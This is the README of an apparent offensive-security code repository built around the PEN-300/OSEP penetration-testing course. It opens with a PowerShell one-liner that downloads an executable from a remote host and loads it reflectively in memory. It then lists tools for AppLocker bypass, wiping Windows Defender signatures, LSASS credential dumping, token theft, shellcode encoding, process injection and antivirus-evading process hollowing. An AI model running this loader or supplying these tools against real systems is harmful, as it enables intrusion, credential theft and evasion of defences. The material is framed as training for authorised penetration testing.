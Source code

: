 # OSEP Code Snippets
Code examples are provided as-is, without any form of warranty. Based on Offensive Security's [PEN-300](https://www.offensive-security.com/pen300-osep/) course.

Classes and methods are public, so most binaries should allow for reflective loading as below.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

### Contents
|Snippet Name|Description|
|--|--|
| AppLocker Bypass PowerShell Runspace (C#) | Base binary for an applocker bypass using a combination of `CertUtil`, `BitsAdmin`, and `InstallUtil`. See `README.md` for details.|
| Fileless Lateral Movement (C#) | Wipes Windows Defender signatures on the remote host and uses a PSExec-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`. |
|Linux Shellcode Encoder (Python) | Utility scripts to encode C# payloads from Linux, either ingesting a raw shellcode payload (.bin), or automatically feeding from 'msfvenom'. Supports XOR and ROT encoding with an arbitrary key, and prints the decoding function. Can be used to replace the C# ROT/XOR encoder scripts.|
|Linux Shellcode Loaders (C) |Various C-based shellcode loaders, including base binaries for library hijacking.|
|MiniDump (C# & PS1) |A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as native PowerShell script.|
|MSSQL (C#)|An example binary that includes a variety of discussed MSSQL interactions. Change the code to include only what you need.|
|PrintSpoofer.NET (C#)|Steals the token of the incoming authentication forced with the [PrintSpooler exploit](https://github.com/leechristensen/SpoolSample), and use that token to run a given binary. Modified to not require an interactive logon session. Takes arguments for the pipe name and binary to run.|
|ROT Shellcode Encoder (C#)|A simple binary to apply state-of-the-art ROT encoding to obfuscate the shellcode. It takes an argument for the number of rotations.|
|Sections Shellcode Process Injector (C#)|Injects and runs shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfsection` and `NtClose` instead of the "standard" method.|
|Shellcode Process Hollowing (C#)|Hollows a `svchost` process and runs the shellcode from there. Scores 0/68 on VirusTotal at the time of writing.|
|Shellcode Process Injector (C# & PS1) | Simple shellcode runner that applies process injection. Accepts an argument for the process to inject into. If no argument is given, it attempts to pick a suitable process based on privilege level. Also provided as native PowerShell script (though it is a bit simpler).|
|Simple Shellcode Runner (C# & PS1 & VBA)|The simplest of shellcode runners. Also provided as native PowerShell and VBA scripts.|
|XOR Shellcode Encoder (C#)|A simple binary to apply state-of-the-art XOR encoding to obfuscate the shellcode.|
